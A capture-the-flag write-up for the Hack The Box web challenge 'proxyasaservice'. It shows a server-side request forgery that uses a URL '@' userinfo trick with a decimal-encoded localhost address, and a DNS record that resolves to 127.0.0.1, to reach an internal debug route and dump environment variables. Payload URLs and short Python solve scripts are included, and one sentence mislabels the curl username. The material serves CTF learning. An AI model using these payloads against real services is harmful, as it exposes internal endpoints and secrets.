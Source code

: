 # Challenge: proxyasaservice

**Lab Description**: Experience the freedom of the web with ProxyAsAService. Because online privacy and access should be for everyone, everywhere.

## Lab Solution

When opening the localhost docker image, the proxy is working and redirecting us to reddit. The challenge comes with source.

We need to bypass restricted URL and also the SITE_NAME should be bypassed.

To bypass the restricted URL check we can change the IP format using Cyberchef "change IP format". In this case decimal representation is used.

```curl
➜  ~ curl -vv 1.1.1.1@google.com
*   Trying 142.250.74.174:80...
* Connected to google.com (142.250.74.174) port 80 (#0)
* Server auth using Basic with user '1.1.1.1'
> GET / HTTP/1.1
> Host: google.com
> Authorization: Basic MS4xLjEuMTo= #This is base64 for 1.1.1.1
```

The above curl command supplies reddit.com as a username for google.com. Much like an SSH login. This can be used to bypass the `SITE_NAME` variable in `routes.py`.

```curl
http://localhost:1337/?url=@2130706433:1337/debug/environment {"Environment variables":{"FLAG":"HTB{f4k3_fl4g_f0r_t3st1ng}","GPG_KEY":"7169605F62C751356D054A26A821E680E5FA6305","HOME":"/root","HOSTNAME":"7e9b4eb7267c","LANG":"C.UTF-8","PATH":"/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","PYTHONDONTWRITEBYTECODE":"1","PYTHON_GET_PIP_SHA256":"dfe9fd5c28dc98b5ac17979a953ea550cec37ae1b47a5116007395bfacff2ab9","PYTHON_GET_PIP_URL":"https://github.com/pypa/get-pip/raw/dbf0c85f76fb6e1ab42aa672ffca6f0a675d9ee4/public/get-pip.py","PYTHON_PIP_VERSION":"24.0","PYTHON_VERSION":"3.12.2","SUPERVISOR_ENABLED":"1","SUPERVISOR_GROUP_NAME":"flask","SUPERVISOR_PROCESS_NAME":"flask","WERKZEUG_SERVER_FD":"3"},"Request headers":{"Accept":"*/*","Accept-Encoding":"gzip, deflate","Connection":"keep-alive","Host":"2130706433:1337","User-Agent":"python-requests/2.31.0"}}
```

Solve script:

```python
import requests

url = "http://localhost:1337/?url=@2130706433:1337/debug/environment"

req = requests.get(url)

print(req.url, req.text)
```

Here the localhost in the link should be replaced with the challenge instance, but the decimal encoded IP should remain localhost. The decimal encoded URL makes the server request the resource as localhost and therefore is able to request the `/debug/environment` route which returns the environment variables in the response. As the flag is contained in the response!

This challenge can also be solved by using a false DNS record with requestrepo.com. This works by using the `SITE_NAME` variable as a subdomain to the request repo url which is supplied. This would look like this:

```python
import requests

url = "http://94.237.62.195:53665/?url=.4lqfri70.requestrepo.com:1337/debug/environment"

req = requests.get(url)

print(req.url, req.text)

```

Then the resulting url queried by the backend would be: `reddit.com.4lqfri70.requestrepo.com`. In request repo the DNS record for this URL to `127.0.0.1`.

